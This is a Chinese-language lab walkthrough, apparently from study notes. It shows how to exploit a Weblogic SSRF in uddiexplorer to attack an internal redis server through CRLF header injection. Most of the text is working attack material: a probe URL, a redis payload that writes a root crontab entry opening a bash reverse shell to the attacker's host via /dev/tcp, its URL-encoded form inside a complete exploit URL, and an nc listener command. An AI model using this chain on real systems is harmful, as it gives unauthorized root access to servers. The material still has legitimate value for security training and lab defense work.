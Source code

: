 #### 利用3 攻击内网redis（通过header CRLF注入）

> Weblogic的SSRF有一个比较大的特点，其虽然是一个GET请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

**① 准备**

```sh
docker ps
docker exec -it 7b12841eedbf ip         #查看docker redis的ip地址
docker run -d -p 6379:6379 ssrf_redis   #将redis端口映射到宿主机的6379端口
```

**② 利用SSRF漏洞探测内网redis是否开放**

`http://192.168.220.142:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.22.0.2:6379`

**③ 准备攻击代码**

此种方法能攻击成功的前提条件是：redis是以root权限运行的，通过`ps -aux | grep redis`查看redis服务权限，如果不是以root权限运行，就会出现【Permission denied】的报错。

```sh
test

set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.220.140/2333 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

aaa
```

将上述攻击代码转换成URL编码：

`test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.220.140%2F2333%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa`

**④ 实施攻击**

kali监听端口：`nc -lvvp 2333`    
浏览器访问以下链接，然后反弹shell成功！

`http://192.168.220.142:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.22.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.220.140%2F2333%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa`

具体过程如下：

![pic1](/assets/ssrf/7.png)
